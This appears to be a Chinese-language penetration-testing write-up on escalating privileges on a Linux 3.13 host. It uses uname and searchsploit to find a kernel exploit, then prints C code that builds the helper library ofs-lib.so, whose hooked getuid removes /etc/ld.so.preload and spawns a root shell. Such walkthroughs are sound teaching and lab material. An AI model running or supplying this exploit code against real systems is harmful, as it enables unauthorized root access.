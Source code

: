 ![20220425_0147.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/e7b2dc4fe91c1add911312e5dc4f9da8.png)

## 内核漏洞提权

我们使用 id 命令查看该用户的权限，发现它仅仅只是一个普通用户,这时候我们就要提权

我们先使用 uname 来查看一下关于操作系统的信息, <font color="red" face=Monaco size=3> 发现其操作系统内核版本只有 3.13 </font> 
这时候就要考虑，能不能使用操作系统内核来进行提权

```bash
# 查看操作系统相关的信息
uname -a 
```
![20220425_0148.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/4de34bb53863111d4dd950f8f97a55e7.png)

所以我们还是使用以下命令来查询相关漏洞利用代码

```bash
searchsploit Linux 3.13
```

![20220428_0112.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/19ba98d3f9616af1ec48b0b13a061c34.png)



我们成功找到一条相关的利用代码,所以我们尝试使用该代码进行提权

![20220425_0157.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/d00d380951760d9da75cbddd6b1bb147.png)

在攻击机内进行编译，并将其二进制文件传到目标机中,运行发现提权失败,而报错信息提示我们没有相关的库文件.
![20220425_0203.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/d258f2ea250c5e420ca23b4bbecdf755.png)

打开并查看一下该漏洞利用代码,发现该程序需要加载一个动态连接库文件
<font color="red" face=Monaco size=3>基本思路是:能不能将该程序要加载,链接的库文件传到目标机上,然后在运行</font>

![20220428_0122.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/52aa9c43e71f4437e03cee7699f095a0.png)


**获取动态链接库的两种方式**
1. 使用 `locate` 命令来查找是否存在该动态链接库 ( 在kali 里内置了许多关于漏洞利用所需要的动态链接库,所以一般的动态链接库我们都能通过该方式获取到)

![20220425_0205.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/25ddb019fd22842e1a77b33d15804087.png)

2. 分析源码来自己编译链接获取
```c++

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"
int main(){
    int lib;
    lib = open("./ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o ./ofs-lib.so ./ofs-lib.c -ldl -w");
    exit(0);
}
```
将上面的代码在攻击机中保存到一个文件中，编译后运行，即可得到我们所要的库文件。